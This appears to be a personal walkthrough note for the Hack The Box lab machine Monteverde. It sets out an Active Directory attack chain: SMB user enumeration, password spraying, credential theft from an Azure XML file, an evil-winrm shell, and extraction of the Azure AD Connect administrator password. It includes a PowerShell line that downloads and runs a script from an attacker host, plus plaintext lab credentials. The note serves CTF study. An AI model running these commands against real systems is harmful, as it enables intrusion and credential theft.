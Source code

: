 ### writeups
* https://0xdf.gitlab.io/2020/06/13/htb-monteverde.html#enumeration
* https://blog.xpnsec.com/azuread-connect-for-redteam/

### SMB
```bash
❯ crackmapexec smb 10.129.98.158 --users

SMB         10.129.98.158   445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.98.158   445    MONTEVERDE       [-] Error enumerating domain users using dc ip 10.129.98.158: NTLM needs domain\username and a password
SMB         10.129.98.158   445    MONTEVERDE       [*] Trying with SAMRPC protocol
SMB         10.129.98.158   445    MONTEVERDE       [+] Enumerated domain user(s)
SMB         10.129.98.158   445    MONTEVERDE       MEGABANK.LOCAL\Guest                          Built-in account for guest access to the computer/domain
SMB         10.129.98.158   445    MONTEVERDE       MEGABANK.LOCAL\AAD_987d7f2f57d2               Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.                                                                                                                                                 
SMB         10.129.98.158   445    MONTEVERDE       MEGABANK.LOCAL\mhope                          
SMB         10.129.98.158   445    MONTEVERDE       MEGABANK.LOCAL\SABatchJobs                    
SMB         10.129.98.158   445    MONTEVERDE       MEGABANK.LOCAL\svc-ata                        
SMB         10.129.98.158   445    MONTEVERDE       MEGABANK.LOCAL\svc-bexec                      
SMB         10.129.98.158   445    MONTEVERDE       MEGABANK.LOCAL\svc-netapp                     
SMB         10.129.98.158   445    MONTEVERDE       MEGABANK.LOCAL\dgalanos                       
SMB         10.129.98.158   445    MONTEVERDE       MEGABANK.LOCAL\roleary                        
SMB         10.129.98.158   445    MONTEVERDE       MEGABANK.LOCAL\smorgan
```

### Credential Brute Force
`crackmapexec smb $IP -u users.txt -p users.txt --continue-on-success`

SMB         10.129.98.158   445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 

### Azure XML
```bash
smbclient -U SABatchJobs //$IP/users$ SABatchJobs -c 'get mhope/azure.xml azure.xml'

crackmapexec winrm $IP -u mhope -p '4n0therD4y@n0th3r$'
```

### evil Shell
```bash
evil-winrm -i $IP -u mhope -p '4n0therD4y@n0th3r$'
```

### Enum
##### Azure Admins
```cmd
*Evil-WinRM* PS C:\Users\mhope\Desktop> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 3:40:05 PM
Password expires             Never
Password changeable          1/3/2020 3:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory               \\monteverde\users$\mhope
Last logon                   1/15/2023 7:25:08 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.
```

### Root by Get-MSOLCredentials
##### 0xdf
`iex(new-object net.webclient).downloadstring('http://10.10.16.13/xdf.ps1')`

Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!

##### Offical
```cmd
❯ evil-winrm -i $IP -u mhope -p '4n0therD4y@n0th3r$' -s .

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> offical.ps1
*Evil-WinRM* PS C:\Users\mhope\Documents> Get-ADConnectPassword
AD Connect Sync Credential Extract POC (@_xpn_)

Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```


